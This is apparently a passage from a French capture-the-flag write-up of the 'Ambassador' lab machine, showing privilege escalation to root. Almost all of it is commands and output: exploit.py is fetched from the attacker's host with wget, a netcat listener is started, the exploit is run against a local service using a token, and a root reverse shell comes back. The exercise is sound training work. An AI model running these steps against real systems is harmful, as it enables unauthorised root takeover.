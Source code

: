 Exploitation :

- Lancement du server http avec le module **http.server** de **python** depuis notre machine:
    
    ```bash
    $ python3 -m http.server 9090
    ```
    
- Télèchargement du script exploit.py sur la machine cible avec **wget** :
    
    ```bash
    developer@ambassador:~$ wget http://10.10.14.27:9090/exploit.py
    --2023-03-09 12:23:05--  http://10.10.14.27:9090/exploit.py
    Connecting to 10.10.14.27:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1409 (1.4K) [text/x-python]
    Saving to: ‘exploit.py’
    
    exploit.py                                 100%[======================================================================================>]   1.38K  --.-KB/s    in 0s      
    
    2023-03-09 12:23:05 (8.47 MB/s) - ‘exploit.py’ saved [1409/1409]
    
    ```
    
- Lancement de **Netcat** sur notre machine :
    
    ```bash
    $ nc -lnvp 1337
    ```
    
- Exécution de l'exploit sur la machine cible :
    
    ```bash
    developer@ambassador:~$ python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.27 --lport 1337 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
    
    [+] Request sent successfully, check your listener
    ```
    
- L'exploitation a bien fonctionné, nous avons un shell :
    
    ```bash
    Ncat: Connection from 10.129.228.56.
    Ncat: Connection from 10.129.228.56:58714.
    bash: cannot set terminal process group (2695): Inappropriate ioctl for device
    bash: no job control in this shell
    root@ambassador:/# 
    ```
    
    ```bash
    root@ambassador:~# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    

Nous voilà **administrateur** de la machine !
